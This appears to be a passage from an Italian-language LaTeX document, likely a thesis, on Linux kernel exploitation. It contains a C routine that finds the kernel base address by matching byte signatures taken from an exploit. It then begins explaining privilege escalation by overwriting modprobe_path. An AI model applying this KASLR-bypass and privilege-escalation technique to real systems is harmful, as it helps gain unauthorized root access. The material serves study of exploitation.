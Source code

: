 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=C,style=CStyle,caption="Signature calcolate con lo script fornito dall'autore dell'exploit"]
static int is_kernel_base(unsigned char *addr)
{
	// thanks python
	
	// get-sig kernel_runtime_1
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
		return 1;

	// get-sig kernel_runtime_2
	if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
			memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
			memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
			memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
			memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
			memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
			memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
			memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
			memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
			memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
			memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
		return 1;

	return 0;
}

\end{lstlisting}

Una volta trovato l'indirizzo base del kernel, si può aggiungere un offset per trovare 
la variable \textbf{\textit{modprobe\_path}} per effettuare privilege escalation come mostrato 
in \cref{s:pe-linux}.

\subsection{Privilege escalation in Linux}\label{s:pe-linux}
\subsubsection{Sovrascrittura della variabile \textit{modprobe\_path}}
Una tecnica per effettuare privilege escalation in Linux prevede l'utilizzo del programma 
modprobe. Quando viene eseguito un programma in Linux, sostanzialmente viene invocata 
la system-call \textbf{\textit{execve}} a cui sono passati gli argomenti del programma 
e il nome del file stesso. Se il file non è del formato ELF (header non corrisponde a $0x7FELF$) 
invoca modprobe che cercherà di eseguire il programma come modulo. La funzione di seguito 
mostra il codice della funzione \textbf{\textit{call\_modprobe()}} (tratto da \cite{LinuxDocs})
\end{document}

